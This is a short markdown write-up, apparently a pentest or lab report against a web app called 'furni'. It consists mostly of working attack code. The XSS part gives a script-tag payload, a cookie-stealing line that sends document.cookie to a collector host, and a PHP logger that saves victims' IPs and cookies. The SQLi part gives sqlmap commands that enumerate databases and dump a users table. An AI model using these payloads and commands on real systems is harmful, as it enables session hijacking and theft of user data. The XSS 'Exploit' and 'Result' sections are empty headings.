





# XSS 
## Payload 
```js
<script src='http://127.0.0.1:8080/payload.js'></script>
```

payload.js content:

```js 
new Image().src='http://127.0.0.1/index.php?c='+document.cookie
```

index.php content: 

``` php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```

## Exploit 

## Result



# SQLi
## Exploit
use Burp Suit to get request and write to file furni.req

scan database:
```cmd
$ sqlmap -r furni.req --batch --dbs --risk=3 --level=5
```


scan tables
```cmd
$ sqlmap -r furni.req --batch -D public --tables --risk=3 --level=5 
```


dump data from user table table

```
$ sqlmap -r furni.req --batch -D public -T users --dump --risk=3 --level=5
```
